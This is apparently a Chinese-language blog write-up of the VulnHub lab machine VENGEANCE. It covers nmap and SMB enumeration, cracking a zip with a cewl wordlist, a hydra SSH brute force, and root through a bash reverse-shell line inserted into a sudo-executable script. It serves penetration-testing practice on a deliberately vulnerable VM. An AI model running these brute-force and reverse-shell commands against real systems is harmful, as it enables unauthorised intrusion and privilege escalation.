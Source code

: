 ```yaml
---
layout: post
title: "vulnhub靶场之DIGITALWORLD.LOCAL: VENGEANCE"
date: "2023-02-03T19:13:15.206Z"
---
```

vulnhub靶场之DIGITALWORLD.LOCAL: VENGEANCE
=======================================

**准备：**

攻击机：虚拟机kali、本机win10。

靶机：digitalworld.local: VENGEANCE，下载地址：https://download.vulnhub.com/digitalworld/VENGEANCE.7z，下载后直接vm打开即可。

知识点：dns解析、smb服务信息收集、cewl爬取密码字典、fcrackzip爆破、python简单脚本编写、hydra爆破、pspy64信息收集。

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203092615385-130516469.png)

**信息收集：**

通过nmap扫描下网段内的存活主机地址，确定下靶机的地址：nmap -sn 192.168.5.0/24，获得靶机地址：192.168.5.160。

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203093055992-1405441906.png)

扫描下端口对应的服务：nmap -T4 -sV -p- -A 192.168.5.160，显示开放了80、139、143、22222等端口，开启了http服务、ssh服务等服务。

    Host is up (0.0011s latency).
    Not shown: 65515 filtered tcp ports (no-response)
    PORT      STATE  SERVICE      VERSION
    7/tcp     closed echo
    22/tcp    closed ssh
    80/tcp    open   http         nginx 1.18.0 (Ubuntu)
    |_auth-owners: www-data
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    |_http-title: VENGEANCE &#8211; Confessions of a girl who has been cornered ...
    88/tcp    closed kerberos-sec
    110/tcp   open   pop3
    | fingerprint-strings: 
    |   LDAPSearchReq: 
    |     +OK Dovecot (Ubuntu) ready.
    |     -ERR Unknown command.
    |_    -ERR Unknown command.
    |_auth-owners: dovenull
    |_pop3-capabilities: RESP-CODES AUTH-RESP-CODE PIPELINING SASL TOP CAPA STLS UIDL
    113/tcp   open   ident?
    |_auth-owners: root
    139/tcp   open   netbios-ssn  Samba smbd 4.6.2
    |_auth-owners: root
    143/tcp   open   imap         Dovecot imapd (Ubuntu)
    |_imap-capabilities: LOGIN-REFERRALS STARTTLS IDLE have OK listed LITERAL+ capabilities ID post-login Pre-login LOGINDISABLEDA0001 IMAP4rev1 more SASL-IR ENABLE
    |_auth-owners: dovenull
    161/tcp   closed snmp
    389/tcp   closed ldap
    443/tcp   open   ssl/http     nginx 1.18.0 (Ubuntu)
    | tls-nextprotoneg: 
    |   h2
    |_  http/1.1
    |_ssl-date: TLS randomness does not represent time
    | ssl-cert: Subject: commonName=VENGEANCE/organizationName=Good Tech Inc/stateOrProvinceName=Singapore/countryName=SG
    | Not valid before: 2021-02-14T02:40:28
    |_Not valid after:  2022-02-14T02:40:28
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    |_auth-owners: www-data
    | tls-alpn: 
    |   h2
    |_  http/1.1
    |_http-title: 400 The plain HTTP request was sent to HTTPS port
    445/tcp   open   netbios-ssn  Samba smbd 4.6.2
    |_auth-owners: root
    993/tcp   open   imaps?
    995/tcp   open   pop3s?
    1337/tcp  closed waste
    2049/tcp  closed nfs
    6000/tcp  closed X11
    8080/tcp  closed http-proxy
    22222/tcp open   ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 32:eb:05:fa:d3:75:45:5e:c7:72:fb:03:aa:05:b7:d7 (RSA)
    |   256 40:16:f8:d1:f1:06:e5:aa:13:44:28:ed:e0:55:ef:34 (ECDSA)
    |_  256 52:78:15:c2:3b:a1:90:20:3a:b1:d6:75:93:72:d8:f8 (ED25519)
    |_auth-owners: root
    54321/tcp closed unknown
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port110-TCP:V=7.92%I=7%D=2/3%Time=63DC649B%P=x86_64-pc-linux-gnu%r(LDAP
    SF:SearchReq,4B,"\+OK\x20Dovecot\x20\(Ubuntu\)\x20ready\.\r\n-ERR\x20Unkno
    SF:wn\x20command\.\r\n-ERR\x20Unknown\x20command\.\r\n");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Host script results:
    | smb2-security-mode: 
    |   3.1.1: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2023-02-03T01:34:24
    |_  start_date: N/A
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 225.23 seconds

访问其web界面发现一个搜索框，点击之后跳转到：http://vengeance.goodtech.inc/?s=1，因此需要进行dns解析，win：打开C:\\Windows\\System32\\drivers\\etc\\hosts文件，kali：打开/etc/hosts文件，添加：192.168.5.160 vengeance.goodtech.inc。之后再次访问并进行简单的注入测试，但是未成功。

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203100231155-346788002.png)

**smb信息收集：**

使用enum4linux对靶机进行扫描，发现部分目录信息和用户信息，目录信息：sarapublic、print，用户信息：sara、qinyi。

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203102646641-1590698097.png)

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203102559180-1315074104.png)

访问sarapublic目录信息，发现eaurouge.txt、essay.txt、gio.zip等文件，将文件下载到本地，一次访问文件信息，但是未发现可疑利用得信息。

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203104611096-750316268.png)

在进行解压gio.zip文件时需要密码才行，尝试对密码进行爆破，但是未爆破成功。

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203104858472-2050654202.png)

#### cewl生成字典：

利用cewl爬取几个文件信息生成密码本，命令：cewl 192.168.5.150:8000/profile.txt >> passwd。

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203110151970-1108585212.png)

利用生成得密码本使用fcrackzip再次对gio.zip文件进行爆破，命令：fcrackzip -D -p /home/kali/Desktop/passwd -u gio.zip，成功获得密码：nanotechnological，使用获得密码：nanotechnological对gio.zip文件进行解压，获得：pass\_reminder.txt 、ted\_talk.pptx 、tryharder.png文件。

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203111125105-1716006957.png)

读取pass\_reminder.txt文件，查看密码提示信息：name\_corner\_circuit（姓名\_转角\_线路），访问ted\_talk.pptx，在其中一次发现：Giovanni Berlusconi、130R、Suzuka。

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203114431467-2145877583.png)

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203113103104-1196799638.png)![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203113124876-481985275.png)

**获取shell：**

根据获得密码组成信息：Giovanni Berlusconi、130R、Suzuka，使用python脚本生成密码字典。

    names = ['Giovanni Berlusconi','giovanni Berlusconi','giovanni','Giovanni']
    corners = ['130R','130r']
    circuits = ['Suzuka','suzuka']
    for name in names:
        passwd_n = name + '_'
        for corner in corners:
            passwd_co = passwd_n + corner + '_'
            for circuit in circuits:
                passwd_ci = passwd_co + circuit
                print(passwd_ci)
                passwd_ci = ''

使用前面获得的账户：sara、qinyi和生成的密码字典使用hydra进行爆破，命令：hydra -L user -P passwd ssh://192.168.5.160:22222，成功获得正确的账户 和密码信息：qinyi/giovanni\_130R\_Suzuka。

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203135458797-79401241.png) 使用获得账户和密码信息：qinyi/giovanni\_130R\_Suzuka，进行ssh登录，成功获得shell权限。

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203140842591-1375461647.png)

**提权：**

查看下当前账户是否存在可以使用的特权命令，sudo -l，发现：/bin/systemctl、/home/sara/private/eaurouge，但是无查看和执行权限。

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203141822442-1907683720.png)

上传pspy64文件并执行进行信息收集，发现开启69端口。

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203145045646-2035441613.png)

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203145557802-1239016242.png)

使用nmap对69端口进行扫描，发现开启开启了tftp服务，连接tftp服务，命令：tftp 192.168.5.160，下载eaurouge文件并访问该文件。发现该文件是一个shell脚本，因此在脚本中添加shell反弹语句：bash -i >&/dev/tcp/192.168.5.150/6688 0>&1。

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203150259565-1387225971.png)![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203150829348-949500605.png)

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203151256574-2017246861.png)

在kali中开启对6688端口的监听，然后在shell中执行/home/sara/private/eaurouge文件，成功获得root权限，并在root目录下发现proof.txt文件，读取该文件获得flag值。

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203151637659-214377443.png)

![](https://img2023.cnblogs.com/blog/2834847/202302/2834847-20230203151820688-705030726.png)